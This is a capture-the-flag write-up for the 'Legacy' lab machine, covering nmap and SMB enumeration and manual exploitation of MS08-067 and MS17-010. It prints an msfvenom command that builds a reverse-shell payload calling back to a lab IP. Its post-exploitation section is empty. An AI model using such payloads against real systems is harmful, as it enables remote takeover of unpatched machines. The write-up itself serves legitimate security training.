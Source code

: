![legacy](https://user-images.githubusercontent.com/43796175/105492077-5e740680-5c85-11eb-8224-07901100704c.jpg)

## LEGACY: Write Up

In this machine i learn about MS-08-067 (CVE-2008-4250) and MS-17-010 (CVE-2017-0143), two exploits of SMB. Exploit this vulnerability manually is simple.

# 01: Information Gathering

First of all i ran nmap with basic commands and i saw two open ports and one closed:

![nmap](https://user-images.githubusercontent.com/43796175/105779180-cf444880-5f3b-11eb-8233-22831472876c.jpg)

Then i did a deeper scan with nmap against 445 port:

![smbnmap](https://user-images.githubusercontent.com/43796175/105779606-b5573580-5f3c-11eb-87a3-a4b20fd80a5b.jpg)
![smbnmap02](https://user-images.githubusercontent.com/43796175/105779613-b7b98f80-5f3c-11eb-86f4-92610487a8b2.jpg)

Nmap showed MS08-067 (CVE-2008-4250) and MS-17-010 (CVE-2017-0143) are very interesting to exploit.

# 02: Threat Modeling

In my mental map smbclient and smbmap were the first option to test, but without results:

![smbno](https://user-images.githubusercontent.com/43796175/105781825-3d3f3e80-5f41-11eb-8e15-73347d9c62f0.jpg)


# 03: Vulnerability Analysis

Both of these vulnerabilities (MS08-067 & MS-17-010) gives a shell as system and each one have a metasploit module for exploit easily but i will show how exploit this manually.

# 04: Exploitation

MS08-067: I will use [this exploit](https://github.com/andyacer/ms08_067) for exploit the vulnerability, this script requires impacket and replace the default shellcode with some of my own. Ok, to make the shellcode i used *msfvenom*:
`
sfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
`

# 05: Post-Exploitation


